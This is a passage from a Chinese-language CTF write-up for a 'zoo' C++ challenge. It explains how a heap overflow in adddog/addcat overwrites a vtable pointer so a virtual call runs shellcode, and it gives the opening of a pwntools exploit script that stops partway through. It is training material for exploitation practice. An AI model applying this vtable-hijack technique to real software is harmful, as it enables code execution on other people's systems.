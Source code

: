 ```cpp
				remove();
				break ;
			case 6 :
				_exit(0);
			default :
				cout << "Invaild choice" << endl;
				break ;
		}
	}	
	return 0 ;
}
```

## 漏洞分析

按照刚才函数的分析，adddog和addcat里存在堆溢出，c++的虚函数调用机制是每一个new的类里的fd都执行vtable，而vatable[i]是将要调用函数的函数地址，以speak为例，这里的vtable为0x403140，其内容为speak和info的实际地址。

![vtable](./1.jpg)

![vtable2](./2.jpg)

我们可以先new2个chunk，利用堆溢出覆盖第二个chunk的fd为nameofzoo+len(shellcode)的地址，nameofzoo的数据为shellcode+nameofzoo_addr.当我们调用listen(0)的时候，实际上调用的是chunk2->nameofzoo_addr+len(shellcode)(因为push的缘故)，在这里函数又找到了nameofzoo_addr作为自己的函数实际执行地址，执行speak实际执行了shellocde，这个过程可以借用一张图来说明

![chunk](./3.jpg)

![shellcode](./4.png)

## exp.py

```py
#coding=utf-8
from time import sleep
from pwn import *
debug = 1
context.update(arch='amd64',os='linux',log_level="DEBUG")
context.terminal = ['tmux','split','-h']
p = process('./zoo')
#elf = ELF('./magicheap')
#libc = ELF('/lib/i386-linux-gnu/libc.so.6')
if debug:
    gdb.attach(p)

def AddDog(name,weight):
    p.recvuntil('Your choice :')
    p.sendline('1')
    p.recvuntil('Name : ')
    p.send(name)
    p.recvuntil('Weight : ')
    p.send(weight)

def Listen(index):
    p.recvuntil('Your choice :')
    p.sendline('3')
    p.recvuntil('index of animal : ')
    p.sendline(str(index))

def Remove(index):
    p.recvuntil('Your choice :')
    p.sendline('5')
    p.recvuntil('index of animal : ')
```